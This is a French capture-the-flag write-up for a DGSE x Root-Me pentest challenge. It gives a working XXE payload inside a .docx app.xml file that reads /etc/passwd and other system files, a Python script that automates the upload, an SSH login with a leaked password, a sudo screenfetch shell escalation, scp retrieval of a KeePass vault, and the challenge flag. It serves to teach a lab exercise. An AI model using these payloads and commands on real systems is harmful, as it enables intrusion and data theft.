




# Mission 4 DGSE x Root-Me (PENTEST)



# Writeup

- On peut se rendre sur l'Application Web de l'entité.

- Sur cette application Web nous avons deux options :

```
"Track a Word document" et "Identify a victim from a document"
```

Pour ces deux options nous devons obligatoirement upload un document word .docx.

> [!IMPORTANT]
> Mais qu'est-ce qu'un document docx ?
> Un .docx fonctionne comme une archive .zip : il contient plusieurs fichiers, dont des fichiers XML. L’un d’eux, app.xml, est utilisé pour stocker des métadonnées.

On upload un document .docx vierge avec la première option et on récupère le document "signé".

-- Le fichier **app.xml** contient une balise personnalisée VictimID : 

```xml
<VictimID>victim-42382ede-f219-4076-9758-be4ee93686d4</VictimID>
```

La deuxième option récupère le contenu de cette la balise pour "identifier la victime".

On voit donc la possibilité d'une injection XXE pour récupérer des fichiers système.

--> On modifie le contenu de app.xml et on update l'archive docx pour tester la récupération de /etc/passwd : 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<Properties xmlns="http://schemas.openxmlformats.org/officeDocument/2006/extended-properties"
            xmlns:vt="http://schemas.openxmlformats.org/officeDocument/2006/docPropsVTypes">
  <VictimID>&xxe;</VictimID>
  <Application>App</Application>
</Properties>
```
On upload ce fichier via la deuxième option et on récupère le contenu de /etc/passwd --> Cela confirme la vulnérabilité : 



On peut modifier l'archive manuellement à chaque fois que l'on veut tester une cible pour le path **XXE** mais c'est contraignant.

-- On automatise ce processus grâce à un script python :

```python
import zipfile
import os
import shutil
import requests

docx_file = "passwd.docx" # On part de l'archive que nous avons utilisé pour récupérer passwd
xxe_target = "/etc/passwd"  # Path pour la "cible" xxe
base_url = "http://163.172.67.183"
upload_url = f"{base_url}/read" 

zip_file = docx_file.replace(".docx", ".zip")
extracted_dir = "unzipped_payload"
modified_docx = "xxe_modified.docx"

shutil.copyfile(docx_file, zip_file)

# Extraire les fichiers dans l'archive

os.makedirs(extracted_dir, exist_ok=True)
with zipfile.ZipFile(zip_file, 'r') as zip_ref:
    zip_ref.extractall(extracted_dir)

# Payload

app_xml_path = os.path.join(extracted_dir, "docProps", "app.xml")
if os.path.exists(app_xml_path):
    with open(app_xml_path, "r", encoding="utf-8") as f:
        content = f.read()

    new_content = content.replace("file:///etc/passwd", f"file://{xxe_target}")

    with open(app_xml_path, "w", encoding="utf-8") as f:
        f.write(new_content)
else:
    print(" app.xml introuvable.")
    exit(1)

# Nouvelle archive

with zipfile.ZipFile(modified_docx, 'w', zipfile.ZIP_DEFLATED) as new_zip:
    for root, _, files in os.walk(extracted_dir):
        for file in files:
            full_path = os.path.join(root, file)
            arcname = os.path.relpath(full_path, extracted_dir)
            new_zip.write(full_path, arcname)

print(f" Fichier modifié : {modified_docx} (payload: {xxe_target})")

with open(modified_docx, "rb") as f:
    files = {
        "file": (modified_docx, f, "application/vnd.openxmlformats-officedocument.wordprocessingml.document")
    }
    print("Envoi en cours") # Vers l'endpoint /read qui est celui utilisé pour la deuxième option.
    response = requests.post(upload_url, files=files)

print(f"\n Statut HTTP : {response.status_code}")
print(" Réponse serveur :\n")
print(response.text)
```
> On cherche à obtenir un accès persistant à la machine — et l’accès SSH paraît être l’option la plus réaliste.

On essaie de récupérer plusieurs fichiers systèmes comme les clés ssh mais on a une erreur qui signifie que nous n'avons pas les droits pour les lire.

* On arrive dans un premier temps à récupérer la config OpenSSH avec le path "/etc/ssh/sshd_config" ce qui leak le port utilisé pour OpenSSH : Port 22222.
* Dans un second temps on récupère le hostname (document-station).

Il y a sûrement l'utilisateur **document-user** donc on recupère également son historique bash :


Celui-ci contient la commande : 

```
echo "cABdTXRyUj5qgAEl0Zc0a" >> /tmp/exec_ssh_password.tmp
```

On peut donc déduire que **cABdTXRyUj5qgAEl0Zc0a** est le mot de passe d'un utilisateur, or ce n'est pas celui de document-user.

Le fichier passwd nous a également fuiter des users, on en teste plusieurs avec ce mot de passe, on finit par trouver le bon **executor**.

```
sshpass -p 'cABdTXRyUj5qgAEl0Zc0a' ssh -p 22222 executor@163.172.67.183
```

- On navigue rapidement dans les répertoires, une fois dans /home/administrator/, plusieurs éléments intéressants apparaissent.

vault.kdbx - C'est un fichier de base de données KeePass, souvent utilisé pour stocker des mots de passe de manière chiffrée.
logo.jpg   - C'est un fichier image qui a première vu n'a rien d'intéressant ^^.

- On veut récupérer ces deux fichiers car ils peuvent être la clé de l'énigme mais en l'état **Nous n'avons pas les droits de lecture dessus.**

--> En regardant les droits sudoers en tant qu'executor, on remarque que l'on peut éxécuter le binaire screenfetch en tant qu'administrator:

```
User executor may run the following commands on document-station:
    (administrator) NOPASSWD: /usr/bin/screenfetch
```

> On ne trouve pas forcément tout de suite comment escalader de privilèges mais on finit par y arriver, voici l'explication.

- À première vue, screenfetch semble inoffensif (il sert juste à afficher des infos système), mais il accepte des options qui peuvent être détournées, notamment, avec l’option -S, avec laquelle il est possible d’exécuter une commande personnalisée :

```
sudo -u administrator /usr/bin/screenfetch -s -S '/bin/bash -p'
```

- Ici, on utilise l’option -S pour exécuter /bin/bash -p, le flag -p (privileged mode) permet de conserver les privilèges de l’utilisateur avec lequel la commande est lancée — en l’occurrence administrator.

--> On ouvre donc un shell bash en tant que administrator en exploitant **cette erreur de configuration :**



> [!NOTE]
> Nous avons maintenant les droits de lecture sur ces deux fichiers mais nous avons un autre problème.

Comment récupérer ces deux fichiers en local pour pouvoir les analyser sachant que nous n'avons pas les droits en écriture sur la plupart des dossiers (Read-only file system)

- A la racine on repère un script "entrypoint.sh", voici son contenu :

```
#!/bin/bash

service ssh restart

chmod 1773 /dev/shm

su - document-user -c "cd /app && flask run --host=0.0.0.0 --port=5000"
```
> On a donc la solution à notre problème.

- Il applique chmod 1773 sur le dossier /dev/shm, ce qui me garantit que ce répertoire est accessible en écriture pour tous les utilisateurs.

--> On copie les deux fichiers importants vers /dev/shm en tant qu'administrator et on donne les droits de lecture à tous les utilisateurs :

```
cp /home/administrator/logo.jpg   /home/administrator/vault.kdbx  /dev/shm/
chmod 644 /dev/shm/logo.jpg /dev/shm/vault.kdbx
```

--> On récupère les deux fichiers sur notre machine en local avec scp :

```
scp -P 22222 executor@163.172.67.183:/dev/shm/logo.jpg .
scp -P 22222 executor@163.172.67.183:/dev/shm/vault.kdbx .
```

- On ouvre le vault avec keepass mais on demande un password que l'on a pas, on peut également utiliser un **keyfile** pour le déverrouiller, on utilise donc l'image logo.png comme keyfile et ça marche !



**Flag:**
```
RM{f5289180cb760ca5416760f3ca7ec80cd09bc1c3}
```


